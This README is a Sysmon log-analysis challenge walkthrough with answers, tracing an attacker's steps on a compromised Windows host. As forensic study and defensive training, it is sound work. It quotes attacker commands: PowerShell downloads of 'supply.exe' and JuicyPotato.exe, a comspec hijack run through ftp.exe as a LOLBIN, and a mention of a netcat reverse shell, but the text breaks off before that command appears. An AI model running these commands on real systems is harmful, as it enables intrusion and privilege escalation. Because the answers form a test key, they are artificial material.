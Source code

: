 # Sysmon Mini Project

**System Monitor (Sysmon)** is a Windows system service and device driver that provides detailed monitoring of operating system activity, including process monitoring and network activity. This information can be beneficial in understanding various exploitation techniques.

A zipped file is provided to assist in solving the challenges. 

**Download the “Sysmon logs.zip”** and enter the password **“blto”** to access the files.

---

### Tools/Utilities Used:
- Text Editor
- Linux CLI

---

## Scenario

You are provided with Sysmon logs from a compromised endpoint. Analyze the logs to identify the steps and techniques used by the attacker.

---

## Challenges

### 1. What is the file that gave access to the attacker?
**Answer:** `updater.hta`

- The first event with the associated IP shows that `chrome.exe` was used to download an HTA file named `updater.hta` from the identified IP address.

### 2. What is the PowerShell cmdlet used to download the malware file and what is the port?
**Answer:** `Invoke-WebRequest`, Port: `6969`

![Log](https://github.com/prakharvr02/Sysmon-Mini-Project/blob/main/Log%20Analysis%20Images/1.webp)

- The log indicates that the attacker utilized the `Invoke-WebRequest` PowerShell cmdlet to download a file named `supply.exe` from the IP `192.168.1.11` using port `6969`.

  - **IP Address:** 192.168.1.11
  - **Port No:** 6969
  - **PowerShell Cmdlet:** Invoke-WebRequest

### 3. What is the name of the environment variable set by the attacker?
**Answer:** `comspec=c:\Windows\temp\supply.exe`

- **Explanation:** The environment variable `comspec` points to what appears to be a malicious executable.

### 4. What is the process used as a LOLBIN to execute malicious commands?
**Answer:** `ftp.exe`

- **Explanation:** “LOLbin” stands for “Living Off the Land Binary.” It refers to legitimate system binaries that can be exploited for malicious purposes. Where logs indicate a new event following the setting of the `comspec` variable:

![Log](https://github.com/prakharvr02/Sysmon-Mini-Project/blob/main/Log%20Analysis%20Images/2.webp)

- The command executed is `cmd \c set comspec=C:\windows\temp\supply.exe`, followed by the execution of `ftp.exe`, which utilizes the new environment variable.

### 5. What is the first command executed by the malware?
**Answer:** `ipconfig`

- **Explanation:** The command `C:\\windows\\temp\\supply.exe /c "ipconfig"` is observed, indicating an initial network configuration check.

### 6. Based on dependency events, what language is the malware written in?
**Answer:** `Python`

![Log](https://github.com/prakharvr02/Sysmon-Mini-Project/blob/main/Log%20Analysis%20Images/3.webp)

### 7. Malware then downloads a new file. What is the full URL?
**Answer:** `https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`

- **Explanation:** The command line for `supply.exe` indicates:
```
  C:\windows\temp\supply.exe /c "powershell -c Invoke-WebRequest -Uri https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe -OutFile C:\Windows\Temp\juice.exe"
```


This command downloads `JuicyPotato.exe` from the specified URL and saves it as `juice.exe` in the Temp folder.

### 8. What port does the attacker try to use for a reverse shell?
**Answer:** `9898`

![Log](https://github.com/prakharvr02/Sysmon-Mini-Project/blob/main/Log%20Analysis%20Images/4.webp)

- **Explanation:** The attacker uses `juicy.exe` to establish a netcat shell back to their system with the command:

